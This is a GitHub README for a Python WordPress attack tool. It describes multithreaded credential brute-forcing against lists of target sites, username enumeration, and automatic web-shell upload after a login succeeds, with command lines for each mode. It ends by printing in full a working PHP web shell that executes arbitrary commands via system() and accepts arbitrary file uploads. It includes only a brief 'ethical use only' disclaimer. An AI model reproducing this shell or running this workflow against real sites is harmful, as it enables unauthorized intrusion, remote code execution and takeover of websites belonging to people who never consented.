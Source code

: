 # k0ur1i WordPress Tool
![secure-wordpress-login-1024x597](https://github.com/user-attachments/assets/05942416-4cc7-424d-a31d-1ebb606e7efe)

## Author: k0ur1i
## Version: 1.0

## Overview
This tool is a versatile CLI-based WordPress security tester designed to automate:

Brute Force Attacks to test WordPress login credentials.
User Enumeration to discover valid usernames.
Auto Shell Upload to simulate PHP shell exploitation upon successful login.


```

██████╗░░██████╗░███████╗███████╗░██████╗░░█████╗░██████╗░██████╗
██╔══██╗██╔════╝░██╔════╝██╔════╝██╔════╝░██╔══██╗██╔══██╗██╔══██╗
██║░░██║██║░░░░░░█████╗░░█████╗░░██║░░██╗░███████║██║░░██║██║░░██║
██║░░██║██║░░░░░░██╔══╝░░██╔══╝░░██║░░╚██╗██╔══██║██║░░██║██║░░██║
██████╔╝╚██████╗░███████╗███████╗╚██████╔╝██║░░██║██████╔╝██████╔╝
╚═════╝░░╚═════╝░░╚══════╝╚══════╝░╚═════╝░╚═╝░░╚═╝╚═════╝░╚═════╝░

by k0ur1i

--------------------------------------------------
[INFO] Current Date and Time:  2024-11-28 12:34:56
--------------------------------------------------
[1] Brute Force Attack
[2] User Enumeration
[3] Auto Upload PHP Shell
[4] Exit
Choose an option: 
```


## Features
1. Multi-target brute force support.
2. Customizable username and password wordlists.
3. User enumeration for discovering valid accounts.
4. Automatic PHP shell upload upon login success.
5. Fast, multithreaded execution.
   

## Requirements
```pip install -r requirements.txt ```

1. Python 3.8+
2. ```git clone https://github.com/00xk0uR1i/kouriBruter ```
3. Run the script:
# Brute Force Attack

    - `python3 run.py -T targets.txt -U users.txt -P passlist.txt -t 10 --timeout 10`

    -T: Target file containing URLs of WordPress sites.
    -U: User list file for usernames.
    -P: Password list file for brute-forcing.
    -t: Number of threads (default 10).
    --timeout: HTTP request timeout in seconds (default 10).
 # User Enumeration

   
    - `python3 run.py -T targets.txt -U users.txt --enumerate` ✨ new ✨
    - `--enumerate: Enumerate usernames without brute-forcing.` ✨ new ✨
 # Auto Upload PHP Shell

    - `python3 run.py -T targets.txt -U users.txt -P passlist.txt --upload-shell shell.php`
    - `--upload-shell: Specify the path to a PHP shell file for automatic upload.` ✨ new ✨
    
# example 
```python3 run.py```
1. Select [1] for brute force.
2. Input paths to targets.txt, users.txt, and passlist.txt.
3. The tool will attempt login credentials and display successful attempts.

This tool is intended for ethical use only. Unauthorized testing or exploitation is illegal and may result in severe consequences. Use it only on systems you own or have explicit permission to test. **Note**: They might not get updated frequently and are kept for legacy reasons:


## Example Exploit Script

```

<?php
// Simple PHP Web Shell

if (isset($_REQUEST['cmd'])) {
    echo "<pre>";
    $cmd = ($_REQUEST['cmd']);
    system($cmd);
    echo "</pre>";
    die;
}

if (isset($_FILES['file'])) {
    move_uploaded_file($_FILES['file']['tmp_name'], $_FILES['file']['name']);
    echo "Uploaded: " . $_FILES['file']['name'];
    die;
}

?>
<!DOCTYPE html>
<html>
<head>
    <title>k0ur1i Shell</title>
</head>
<body>
    <h1>Welcome to k0ur1i Shell</h1>
    <form method="post">
        <input type="text" name="cmd" placeholder="Enter command">
        <button type="submit">Execute</button>
    </form>
    <form method="post" enctype="multipart/form-data">
        <input type="file" name="file">
        <button type="submit">Upload</button>
    </form>
</body>
</html>

```


Note:

## This tools for ethical hacker I am Not responsible for any bad use .

## License
# This project is licensed under the MIT License.

<a href="https://buymeacoffee.com/k0ur1i" target="_blank"><img src="https://cdn.buymeacoffee.com/buttons/default-orange.png" alt="Buy Me A Coffee" height="41" width="174"></a>
